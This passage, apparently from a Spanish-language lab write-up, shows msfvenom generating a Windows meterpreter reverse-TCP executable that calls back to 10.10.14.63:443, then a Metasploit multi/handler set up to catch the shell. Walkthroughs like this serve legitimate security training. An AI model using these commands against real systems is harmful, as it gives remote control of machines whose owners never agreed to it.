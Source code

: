 - Podemos descargárnoslo usando `Metasploit`.

```bash
➜  content msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.63 LPORT=443 -f exe -o reverse.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

- Ahora configuramos todo en `Metasploit`.

```bash
➜  ~ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the
makerc command


MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.4.2-dev                           ]
+ -- --=[ 2408 exploits - 1240 auxiliary - 422 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.63
lhost => 10.10.14.63
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.63:443
```
